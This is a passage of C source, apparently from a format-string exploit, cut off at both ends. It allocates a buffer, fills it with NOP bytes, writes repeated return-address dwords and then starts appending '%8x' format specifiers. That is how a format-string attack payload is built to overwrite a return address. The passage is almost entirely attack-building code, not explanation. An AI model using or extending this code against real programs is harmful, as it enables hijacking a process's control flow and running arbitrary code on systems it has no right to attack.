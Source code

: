 ** Unless the user gives us a psychotic value,

** the address should now be clean.

*/

 

    /* str */

    cnt = 24;

    /* 1 = process nul */

    buflen -= cnt + 1;

 

    if(!(buff = malloc(buflen + 1)))

    {

        perror("malloc()");

        exit(EXIT_FAILURE);

    }

 

    ptr = buff;

    memset(ptr, NOP, buflen);

 

    for(i = 0; i < 4; i++, retpos++)

    {

        /* junk dword */

        for(j = 0; j < 4; j++)

            *ptr++ = retpos >> j * 8 & 0xff;

        /* r + i */

        memcpy(ptr, ptr - 4, 4);

        ptr += 4; cnt += 8;

    }

 

    /* restore */

    retpos -= 4;

 

    for(i = 0; i < wipe; i++)

    {

        /* consistent calculations */

        strncpy(ptr, "%8x", 3);
